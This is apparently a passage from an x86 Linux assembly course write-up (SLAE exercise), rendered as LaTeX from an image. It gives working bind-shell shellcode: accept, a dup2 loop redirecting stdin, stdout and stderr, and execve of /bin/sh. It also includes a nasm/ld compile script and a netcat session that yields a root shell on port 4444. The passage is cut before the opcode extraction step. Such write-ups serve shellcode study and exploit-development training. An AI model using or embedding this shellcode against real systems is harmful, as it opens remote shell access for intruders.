 \documentclass[11pt]{article}
\begin{document}
\begin{verbatim}
    ;; Call accept
    xor eax, eax
    mov al, 0x66 ; socketcall syscall
    xor ebx, ebx
    mov bl, 0x5 ; sys_accept syscall number
    ;; Place accept's arguments on the stack
    ;; We don't need a peer socket???... so we
    ;; use nulls for addrlen and sockaddr struct
    xor ecx, ecx
    push ecx ; Push NULL (0x00000000) for addrlen
    push ecx ; Push NULL (0x00000000) for sockaddr struct
    push edi ; Push the listening sockets file descriptor
    mov ecx, esp ; place a pointer to the args in ecx
    int 0x80 ; call sys_accept

    ;; Save the returned connection socket file descriptor
    xor ebx, ebx
    mov ebx, eax

    ;; Call dup2 for stdin, stdout, and stderr in a loop
    xor ecx, ecx
    mov cl, 0x2 ;loop counter
  dup2:
    mov al, 0x3f ;dup2
    int 0x80
    dec ecx
    jns dup2

    ;; Call execve
    xor eax, eax
    mov al, 0xb ;execve
    xor ebx, ebx
    push ebx
    push 0x68732f2f ;"sh//"
    push 0x6e69622f ;"nib/"
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    int 0x80
\end{verbatim}

When we compile the above shellcode using the compile.sh script below:

\begin{verbatim}
#!/bin/bash
echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -o $1 $1.o

echo '[+] Done!'
\end{verbatim}

\verb,root@blahblah:~/shared/SLAE/slae/exercise1# ./compile.sh bindshellasm,

And run the shellcode using:

\verb,root@blahblah:~/shared/SLAE/slae/exercise1# ./bindshellasm,

And connect using netcat:

\begin{verbatim}
#!/bin/bash
root@blahblah:~/shared/SLAE/slae/exercise1# nc -nv 127.0.0.1 4444
(UNKNOWN) [127.0.0.1] 4444 (?) open
id
uid=0(root) gid=0(root) groups=0(root)
\end{verbatim}

Bingo! Our assembly works and gives us a tcp bind shell. Now we need to test it
in our c program stub. We will use some command line fu to get the opcodes
from our binary:
\end{document}
